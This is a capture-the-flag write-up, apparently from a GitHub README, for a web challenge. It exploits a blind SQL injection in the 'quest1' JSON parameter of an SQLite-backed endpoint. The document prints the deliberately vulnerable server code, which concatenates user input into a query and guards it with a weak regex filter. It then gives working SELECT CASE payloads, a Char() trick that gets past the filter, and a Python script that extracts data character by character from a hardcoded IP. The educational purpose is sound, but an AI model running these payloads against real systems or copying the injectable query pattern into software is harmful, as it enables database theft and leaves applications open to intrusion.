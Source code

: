 # IQL LTD.
Find the names.

Flag format: CTF_BD{[0-9A-Za-z]+}

Author: Ashraful Islam <0xAgun>

# Overview

This Capture The Flag (CTF) challenge focuses on exploiting a SQL injection vulnerability in the 'quest1' parameter of an SQLite database. The challenge is designed to test your skills in identifying and exploiting common web application security flaws.

The goal of this challenge was to retrieve the flag stored in the database by exploiting the SQL injection vulnerability in the 'quest1' parameter.

![MIT License](https://i.imgur.com/fykxmtb.png)


# Exploitation

after browsing some while you can notice that if you come over next page and click on the submit button it'll just return a alert on the screen.
but after analyzing the request we can see the difference.

Request

```http
POST /search/ HTTP/1.1
Host: xx.xx.xxx.xxx:8000
Content-Length: 14
X-CSRFToken: CKuPRwpYszHiyS0RUKTFimRMTvFyV0fR1B8bxV4udXDV8ZllhPhmDoXOD4tM47IW
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://xx.xx.xxx.xxx:8000
Referer: http://xx.xx.xxx.xxx:8000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: csrftoken=z1OwQzPGVy6NKhvExfyRvcgcUJYojhDf
Connection: close

{"quest1":"1"}
```

Response

```http
HTTP/1.1 500 Internal Server Error
Date: Mon, 09 Oct 2023 16:32:23 GMT
Server: WSGIServer/0.2 CPython/3.10.2
Content-Type: application/json
X-Frame-Options: DENY
Content-Length: 33
Vary: origin
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Cross-Origin-Opener-Policy: same-origin

{"error": "Something Went wrong"}
```


this is the normal request but if we change the  ```{"quest1":"2"}``` the response is different now ... its 200 Ok


now to check for sqli  {"quest1":"2 AND 1=1"} it got blocked 


```py
          if len(query) <= 2:
                try:
                    cursor.execute('SELECT No FROM polls_maths WHERE id='+pretty['quest1'])
                    row = cursor.fetchall()
                    print(row)
                    convert = int(row[0][0])
                    return JsonResponse({'results': convert})
                except Exception:
                    return JsonResponse({'error': "Something Went wrong"}, status=500)
            else:
                  patt = r"(select case)"
                                  try:
                                      search = re.search(patt, query, re.IGNORECASE)
                                      # search = re.compile(patt, query)
                                      if search:
                                          print("hello")
                                          pattern2 = r"\(.*,\d,\d\)='.'"
                                          search2 = re.search(pattern2, query, re.IGNORECASE)
                                          if search2:
                                              return JsonResponse({'error': 'Not Acceptable'}, status=406)
                                          else:
                                              cursor.execute('SELECT No FROM polls_maths WHERE id='+pretty['quest1'])
                                              row = cursor.fetchall()
                                              print(row[0][0])
                                              convert = int(row[0][0])
                                              return JsonResponse({'results': convert})
                                      else:
                                          return JsonResponse({'error': "Something Went wrong"}, status=500)
                                  except Exception as e:
                                      print(e)
                  
                                  return JsonResponse({'error': "Something Went wrong"}, status=500)
                  

```
here we can see that if our input is less then 2 or equal 2 if immidiately execute the query and if it's greater then 2 then it go to else block there it check if  (select case) is present or not on the input. If it's not present on the payload it retuns 500 error.

let's verify the injection with select case

```http
POST /search/ HTTP/1.1
Host: xx.xx.xxx.xxx:8000
Content-Length: 53
X-CSRFToken: CKuPRwpYszHiyS0RUKTFimRMTvFyV0fR1B8bxV4udXDV8ZllhPhmDoXOD4tM47IW
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://xx.xx.xxx.xxx:8000
Referer: http://xx.xx.xxx.xxx:8000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: csrftoken=z1OwQzPGVy6NKhvExfyRvcgcUJYojhDf
Connection: close

{"quest1":"(SELECT CASE WHEN 1=1 THEN 2 ELSE 4 END)"}

```
the response


```http
HTTP/1.1 200 OK
Date: Tue, 10 Oct 2023 06:13:27 GMT
Server: WSGIServer/0.2 CPython/3.10.2
Content-Type: application/json
X-Frame-Options: DENY
Content-Length: 14
Vary: origin
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Cross-Origin-Opener-Policy: same-origin

{"results": 2}

```

it returns ok means it's vulnerable .

() is used for query selection if i dont use it's return error as waf is blocking AND operator.


to get the names collumn as given in the description we need to find the table name first i already know this so for the writeup i'll directly use the right column

```http
{"quest1":" (SELECT CASE WHEN EXISTS (SELECT 1 FROM sqlite_master WHERE type='table' AND tbl_name='users') THEN 2 ELSE 4 END)"}
```

and the result will be 200 OK

now it's time to get our flag


```http

{"quest1":"(select case when substr(names,1,1)='C' then 2 else 4 end from users limit 0,1)"}
```

after sending request it get's blocked by our waf ``` pattern2 = r"\(.*,\d,\d\)='.'"```

to bypass this we can use the Char() method of sql 
the final paylaod will look like this

```http

{"quest1":"(select case when substr(names,1,1)=Char(67) then 2 else 4 end from users limit 0,1)"}
```

now just use recursion and brute the flag


i have automated this using python 

```py

import requests



characters = [
    ('a', 97), ('b', 98), ('c', 99), ('d', 100), ('e', 101), ('f', 102), ('g', 103), ('h', 104), ('i', 105), ('j', 106), 
    ('k', 107), ('l', 108), ('m', 109), ('n', 110), ('o', 111), ('p', 112), ('q', 113), ('r', 114), ('s', 115), ('t', 116), 
    ('u', 117), ('v', 118), ('w', 119), ('x', 120), ('y', 121), ('z', 122), ('A', 65), ('B', 66), ('C', 67), ('D', 68), 
    ('E', 69), ('F', 70), ('G', 71), ('H', 72), ('I', 73), ('J', 74), ('K', 75), ('L', 76), ('M', 77), ('N', 78), ('O', 79), 
    ('P', 80), ('Q', 81), ('R', 82), ('S', 83), ('T', 84), ('U', 85), ('V', 86), ('W', 87), ('X', 88), ('Y', 89), ('Z', 90), 
    ('0', 48), ('1', 49), ('2', 50), ('3', 51), ('4', 52), ('5', 53), ('6', 54), ('7', 55), ('8', 56), ('9', 57), 
    ('!', 33), ('"', 34), ('#', 35), ('$', 36), ('%', 37), ('&', 38), ("'", 39), ('(', 40), (')', 41), ('*', 42), ('+', 43), 
    (',', 44), ('-', 45), ('.', 46), ('/', 47), (':', 58), (';', 59), ('<', 60), ('=', 61), ('>', 62), ('?', 63), ('@', 64), 
    ('[', 91), ('\\', 92), (']', 93), ('^', 94), ('_', 95), ('`', 96), ('{', 123), ('|', 124), ('}', 125), ('~', 126)
]



burp0_url = "http://45.76.177.238:8000/search/"
burp0_cookies = {"csrftoken": "z1OwQzPGVy6NKhvExfyRvcgcUJYojhDf"}
burp0_headers = {"X-CSRFToken": "gREtrhNf3Ikb9fe6N7uRVhVZnHw93QWAFIiP7GsLO6gOJmzAacSygj117gkncXpF", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36", "Content-Type": "application/json", "Accept": "*/*", "Origin": "http://45.76.177.238:8000", "Referer": "http://45.76.177.238:8000/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}

res = ""

position = 1
while True:
    for x,y in characters:
        ch = str(y)
        burp0_json={"quest1": f"(select case when substr(names,{position},1)=Char({ch}) then 2 else 4 end from users limit 0,1)"}
        re1 = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, json=burp0_json)
        if re1.status_code == 200:
            position += 1
            res += x
            print(res)
            continue

```













